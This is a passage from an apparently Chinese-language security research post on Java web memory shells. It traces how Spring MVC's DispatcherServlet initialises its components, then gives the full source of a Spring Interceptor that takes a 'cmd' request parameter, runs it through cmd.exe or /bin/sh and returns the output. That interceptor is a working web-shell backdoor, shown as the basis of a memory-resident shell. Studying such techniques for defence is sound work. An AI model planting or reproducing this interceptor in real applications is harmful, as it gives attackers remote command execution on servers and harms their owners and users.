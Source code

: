 这段代码的log和计时部分就不说了，我们捡关键的说。它先是调用initWebApplicationContext方法，初始化IOC容器，在初始化的过程中，会调用到这个onRefresh方法，一般来说这个方法是在容器刷新完成后被调用的回调方法，它执行一些在应用程序启动后立即需要完成的任务：

[![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20240118155901114.png)](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118155901114.png)

跟入该方法，可以看到其中默认为空：

[![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20240118160618786.png)](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118160618786.png)

说明在它的子类中应该会有override，果然我们定位到了`org.springframework.web.servlet.DispatcherServlet#`方法：这一下就明了了起来，这不是我们之前提到的九大组件嘛，到这一步就完成了Spring MVC的九大组件的初始化。

[![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20240118160730953.png)](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118160730953.png)

##### 3.1.SpringMVC 框架Interceptor组件

###### 1.编写一个简单的 SpringMVC 框架Interceptor组件

TestInterceptor.java

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```
